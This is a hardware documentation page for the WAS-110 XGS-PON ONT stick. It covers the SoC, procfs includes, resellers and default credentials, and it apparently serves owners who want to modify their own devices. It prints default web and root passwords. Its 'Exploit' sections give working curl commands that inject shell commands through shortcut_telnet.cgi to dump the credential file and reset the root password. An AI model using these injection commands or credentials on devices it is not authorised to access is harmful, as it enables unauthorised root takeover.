

# WAS-110


## Architecture

### MaxLinear PRX126 [^2]



## System Information

### Boot log

```
--8<-- "docs/xgs-pon/ont/bfw-solutions/was-110/bootlog"
```

### procfs [^3]

=== "`/proc/cmdline`"


    ``` 
    --8<-- "docs/xgs-pon/ont/bfw-solutions/was-110/procfs_cmdline"
    ```

=== "`/proc/cpuinfo`"


    ``` 
    --8<-- "docs/xgs-pon/ont/bfw-solutions/was-110/procfs_cpuinfo"
    ```

=== "`/proc/meminfo`"


    ``` 
    --8<-- "docs/xgs-pon/ont/bfw-solutions/was-110/procfs_meminfo"
    ```

=== "`/proc/mtd`"


    ``` 
    --8<-- "docs/xgs-pon/ont/bfw-solutions/was-110/procfs_mtd"
    ```

## Default Credentials

### Web credentials

The default web credentials can be found in `/ptrom/ptconf/param_ct.xml`. Modifications from the web UI are stored in
`/ptrom/ptconf/usrconfig_conf` as base64 encoded strings.

!!! warning
    Passwords have a maximum length of 16 characters which are not restricted by the web UI.

??? bug "Exploit to disclose the default web credentials"
    To dump the web credentials from `/ptrom/ptconf/param_ct.xml`, navigate to:

    <http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml>

    Alternatively, run the following command(s) to download `param_ct.xml` to a temporary directory.

    === ":material-microsoft: Windows"

        ``` sh
        dir %Temp% && curl -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

    === ":simple-apple: macOS"

        !!! note "The following commands assume [Homebrew](https://brew.sh) is installed"

        ``` sh
        brew install curl
        cd /tmp && curl -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

    === ":simple-linux: Linux"

        !!! note "The following commands assume [Debian] or derivatives[^4]"

        ``` sh
        sudo apt-get install curl
        cd /tmp && curl -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

=== "Firmware v1.0.21"

    | Username | Password       |
    | -------- | -------------- |
    | admin    | BR#22729%635e9 |
    | user     | user1234       |

=== "Firmware &lt;= v1.0.20"

    | Username | Password       |
    | -------- | -------------- |
    | admin    | QsCg@7249#5281 |
    | user     | user1234       |

### Shell credentials

=== "Firmware v1.0.21"

    The <ins>root</ins> password is undisclosed at this time, use the suggested exploit below to gain root privileges.

=== "Firmware &lt;= v1.0.20"

    | Username | Password       |
    | -------- | -------------- |
    | root     | QpZm@4246#5753 |

??? bug "Exploit to temporarily change the root password"
    Run the following command(s) to temporarily change the root password to `root`.

    === ":material-microsoft: Windows"

        ``` sh
        curl -s -o null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

    === ":simple-apple: macOS"

        !!! note "The following commands assume [Homebrew](https://brew.sh) is installed"

        ``` sh
        brew install curl
        curl -s -o /dev/null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

    === ":simple-linux: Linux"

        !!! note "The following commands assume [Debian] or derivatives[^4]"

        ``` sh
        sudo apt-get install curl
        curl -s -o /dev/null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

## Value-Added Resellers

| Company                                        | Product Number    | E-commerce                                  |
| ---------------------------------------------- | ----------------- | ------------------------------------------- |
| [Azores Networks](https://azoresnetworks.com/) | XSS               |                                             |
| [DZS](https://dzsi.com/)                       | 5311XP            |                                             |
| [E.C.I. Networks](https://ecin.ca/)            | EN-XGSFPP-OMAC-V2 | :check_mark:                                |
| [FiberMall](https://www.fibermall.com/)        | XGSPON-ONU-STICK  | :check_mark:                                |
| [HALNy Networks](https://halny.com/)           | HLX-SFPX          | Available from [Flytec Computers] :flag_us: |

  [Flytec Computers]: https://flyteccomputers.com/halny-networks-hlx-sfpx
  [Debian]: https://www.debian.org/

[^1]: <https://www.bfw-solutions.com/en/gpon-family-141>
[^2]: <https://www.maxlinear.com/product/access/fiber-access/socs-for-optical-networking-units-onu/prx126>
[^3]: <https://en.wikipedia.org/wiki/Procfs>
[^4]: <https://www.debian.org/derivatives/>
